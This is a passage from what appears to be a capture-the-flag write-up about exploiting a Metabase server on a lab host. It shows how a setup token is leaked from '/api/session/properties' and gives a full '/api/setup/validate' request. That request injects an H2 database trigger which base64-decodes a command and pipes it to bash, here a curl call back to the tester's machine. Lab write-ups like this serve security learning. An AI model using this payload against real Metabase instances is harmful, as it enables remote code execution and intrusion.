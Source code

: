 First, I needed to get a token by sending a get request to '/api/session/properties'.

```http
GET /api/session/properties HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: metabase.DEVICE=f1fc7d2a-89c9-4ca7-9e64-6fc1cb41ecea
Upgrade-Insecure-Requests: 1
```

It returned over 2000 lines of JSON, the token was near the bottom of it.

```json
{
    ...
    "landing-page": "",
    "setup-token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "application-colors": {},
    "enable-audit-app?": false,
    "anon-tracking-enabled": false,
    "version-info-last-checked": null,
    ...
}
```

Then it used the '/api/setup/validate' endpoint that validates the database URL. The exploit tries to use a 'zip' database and some SQL Injection to create a trigger and execute it when checking the connection to the database.

I tested the exploit by trying to load a web page from my machine. The exploit required base64 a encoded command.

```bash
$ echo -n "curl 10.10.14.82  " | base64
Y3VybCAxMC4xMC4xNC44MiAg
```

I sent the payload with that command.

```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cookie: metabase.DEVICE=f1fc7d2a-89c9-4ca7-9e64-6fc1cb41ecea
Content-Type: application/json
Content-Length: 472

{
  "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
  "details": {
    "details": {
      "db": "zip:/app/metabase.jar!/sample-database.db;TRACE_LEVEL_SYSTEM_OUT=0\\;CREATE TRIGGER JTNMEYESRPXS BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,Y3VybCAxMC4xMC4xNC44MiAg}|{base64,-d}|{bash,-i}')\n$$--=x",
      "advanced-options": "False",
      "ssl": "True"
    },
    "name": "x",
    "engine": "h2"
  }
```